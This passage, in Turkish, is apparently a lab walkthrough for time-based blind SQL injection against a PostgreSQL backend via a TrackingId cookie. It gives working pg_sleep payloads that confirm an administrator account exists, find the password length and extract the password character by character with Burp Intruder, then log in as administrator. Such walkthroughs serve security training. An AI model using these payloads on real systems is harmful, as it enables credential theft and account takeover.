 Uygulamanın **hemen yanıt verdiğini** doğrulayın. Bu, **boolean tabanlı bir koşulu** test etmenin ve sonucu çıkarsamanın bir yoludur.

Şimdi şu değere değiştirin:

```
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

Koşulun **doğru olduğunu** ve veritabanında **administrator** adlı bir kullanıcının bulunduğunu doğrulayın.

Şifre uzunluğunu belirleme:

**administrator** kullanıcısının şifresinin kaç karakter olduğunu anlamak için şu sorguyu gönderin:

```
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

Uygulamanın **10 saniye gecikme ile yanıt verdiğini** doğrulayın.

Aynı yöntemi kullanarak, **LENGTH(password)>2**, **LENGTH(password)>3**, … şeklinde artan değerlerle test edin.

Gecikme **artık oluşmadığında**, şifre uzunluğunu belirlemiş olacaksınız. Örneğin, yanıt süresi aniden hızlandığında şifrenin **20 karakter** olduğunu öğrenmiş olacaksınız.

**Şifre karakterlerini tek tek öğrenme:**

Şifrenin **her bir karakterini** bulmak için **Burp Intruder** kullanın.

Aşağıdaki değeri kullanarak Burp Intruder’a gönderin:

```
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

Burp Intruder’da **payload konumları** ekleyin ve şu formatı kullanın:

```
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

**Payload listesi** olarak **a-z ve 0-9** karakterlerini içeren bir liste oluşturun.

**Attack** ayarlarında **Maximum concurrent requests** değerini **1** olarak ayarlayın.

**Saldırıyı başlatın ve sonuçları inceleyin.** 10 saniye gecikme yaşanan karakter, şifrenin ilk karakteridir.

Ardından, aynı işlemi **SUBSTRING(password,2,1)**, **SUBSTRING(password,3,1)** vb. şeklinde **şifrenin tüm karakterleri için** tekrarlayın.

Elde edilen şifreyi kullanarak giriş sayfasına gidin ve **administrator** olarak giriş yapın.





